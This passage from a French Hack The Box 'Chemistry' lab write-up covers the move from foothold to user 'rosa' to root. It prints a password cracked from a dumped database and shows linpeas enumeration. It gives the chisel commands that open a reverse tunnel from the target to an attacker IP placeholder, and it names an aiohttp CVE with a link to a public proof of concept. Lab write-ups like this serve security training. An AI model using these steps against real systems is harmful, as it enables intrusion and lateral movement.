 ![foothold on Chemistry](/images/HTB-Chemistry/foothold.png)

### Shell en tant que rosa

Il y a un autre utilisateur sur le système nommé `rosa`.

![users list](/images/HTB-Chemistry/user_list.png)

Dans `/home/app/instance` nous trouvons `database.db` qui contient les hashs des utilisateurs. Le hash de l'admin n'est pas crackable mais nous réussissons à récupérer le mot de passe de `rosa`, `unicorniosrosados`.

![database credentials](/images/HTB-Chemistry/creds_in_db.png)

![rosa password found](/images/HTB-Chemistry/rosa_pwd.png)

Avec ce mot de passe, nous nous connectons en tant que `rosa` via SSH et récupérons le drapeau utilisateur.

![rosa SSH](/images/HTB-Chemistry/rosa_SSH.png)

![Chemistry user flag](/images/HTB-Chemistry/user_flag.png)

En utilisant linpeas nous trouvons un port interne, nous utiliserons chisel pour le tunneling.

![Chemistry internal ports](/images/HTB-Chemistry/active_ports.png)

Sur notre machine locale
```
chisel server -p 9999 --reverse
```

Sur la cible
```
./chisel client {KALI_IP}:9999 R:8080:127.0.0.1:8080
```

Nous allons à `http://127.0.0.1:8080/` et découvrons un site web.

![internal website](/images/HTB-Chemistry/internal_website.png)

## Elévation de Privilèges (shell en tant que root)

Ce site n'offre aucune fonctionnalité exploitable. Utilisons `curl` pour vérifier les en-têtes.

```
curl 127.0.0.1:8080 --head
```

![internal website header](/images/HTB-Chemistry/aiohttp.png)

Le site utilise [aiohttp](https://docs.aiohttp.org/en/stable/). Il s'agit d'un `Client/serveur HTTP asynchrone pour asyncio et Python`. Une recherche sur `aiohttp cve` mène au [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334) et un PoC est disponible [ici](https://github.com/z3rObyte/CVE-2024-23334-PoC).
